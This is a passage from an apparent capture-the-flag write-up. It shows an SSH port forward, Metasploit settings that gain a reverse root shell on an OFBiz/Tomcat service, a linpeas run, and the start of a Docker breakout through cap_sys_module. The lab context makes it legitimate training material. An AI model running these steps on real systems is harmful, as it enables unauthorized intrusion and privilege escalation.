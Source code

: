 ```
<!doctype html><html lang="en"><head><title>HTTP Status 404 – Not Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 – Not Found</h1><hr class="line" /><p><b>Type</b> Status Report</p><p><b>Message</b> Not found</p><p><b>Description</b> The origin server did not find a current representation for the target resource or is not willing to disclose that one exists.</p><hr class="line" /><h3>Apache Tomcat/9.0.31</h3></body></html
```

We get back a basic 404, but the important part here is the certificate. It's `ofBiz` running on `Apache Tomcat 9.0.31`. Some googling around and we see a few exploits. We even have a `Metasploit` module. In order to get this to work, we need to forward the ports to our machine since we cannot access them directly.

Command:
`ssh -L 8443:127.0.0.1:8443 marcus@10.10.10.238`

Now with the port being forwarded, let's see if the `Metasploit` module will work. There are a few settings that need to be set:

`set rhost 127.0.0.1`
`set rport 8443`
`set lhost tun0`
`set lport 8443`
`set srvport 9090`
`set forceexploit true`

With all these setup, we shoot it off and...

{{< figure src="__GHOST_URL__/content/images/2021/09/image-14.png" >}}

We get a shell as root! We're not clear yet, we take a look and don't see our rootflag anywhere. Looks like we need to break from the container! We'll upload `linpeas` again and run it as root this time.

Command:
`upload linp.sh`
`shell`
`chmod +x linp.sh`
`./linp.sh`

Now when we run `linpeas` as root, there can often be a lot of noise to sift through. Eventually, we check this listing:

{{< figure src="__GHOST_URL__/content/images/2021/09/image-15.png" >}}

Hacktricks has a [good listing](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#container-capabilities) of checking for Docker breakout scenarios. We indeed have `cap_sys_module`. There have been a few write-ups on this kind of break out. 

AttackDefense has modules where you can actually do this exact attack. I've done some of there CTF write-ups as well, take a peek!

So let's break out. Here's our [reference document](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd). We need to make the shell file, a make file and then compile them.
